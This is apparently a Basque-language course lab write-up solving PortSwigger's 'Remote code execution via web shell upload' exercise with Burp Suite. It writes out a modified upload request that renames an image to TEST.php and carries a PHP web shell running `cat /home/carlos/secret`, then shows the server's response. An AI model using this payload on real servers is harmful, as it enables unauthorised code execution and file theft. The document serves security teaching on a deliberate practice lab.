






# Laborategia: Web shell

### Aurretiko baldintzak

- GNU/Linux makina: ordenagailu eramangarria, makina birtuala edo laborategiko PCa (LDAP kredentzialarekin sartu; `lsi` erabiltzailea soilik erabili beharrezkoa bada, `su - lsi` komandoaren bidez).
- Kode-editorea. Visual Studio Code-n, `Ctrl+Shift+V` sakatuz fitxategi hau modu atseginean bistaratzen da (batez ere irudientzat).
- Irakasgaiaren GitHub biltegia: laborategian garatutako programak igo ditzakezu.
- Burp suite, Firefox + FoxyProxy, PortSwigger kontu pertsonala (`SQL injection` laborategia ikusi). 

## Remote code execution via web shell upload

Laborategi honen helburua zerbitzariko `/home/carlos/secret` irakurtzea da urruneko kode-exekuzioaren bidez (RCE, *Remote Code Execution*). Zehazki, PHP bidezko shell bat exekutatuko dugu.

Aktibatu Burp suite eta FoxyProxy hedapena Firefoxen. Firefox bidez, logeatu [PortSwigger](https://portswigger.net) webgunean eta joan [File upload vulnerabilities; Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload) laborategira. Sartu laborategian:



Joan `My account` atalera eta logeatu "wiener" erabiltzailearekin eta "peter" pasahitzarekin:



Igo `TEST.png` irudia:





Ireki irudia fitxa berri batean. Horrek irudiaren bide-izen osoa ematen digu: `/files/avatars/TEST.png`. Burp suite-n, ireki `POST /my-account/avatar` eskaera eta bidali Repeater-era:



Aldatu `TEST.png`, `TEST.php` bihurtuz, eta sartu Shell komandoa exekutatuko duen PHP instrukzioa:

```
Content-Disposition: form-data; name="avatar"; filename="TEST.php"
Content-Type: image/png

<?php system('cat /home/carlos/secret'); ?>
PNG
...  
```

Bidali eskaera. Honela erantzuten digu:

```
HTTP/2 200 OK
Date: Mon, 02 Nov 2026 16:40:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 129

The file avatars/TEST.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Itzuli nabigatzailera, eta jarri berriro irudiaren URLa, baina `.php` luzapenarekin: `/files/avatars/TEST.php`:



Fitxategia irekitzean, PHP balitz bezala exekutatzen da eta sekretua irakurtzen du. Kopiatu sekretua eta sartu laborategiko "Submit solution" atalean. "Congratulations, you solved the lab!" erantzun beharko luke.

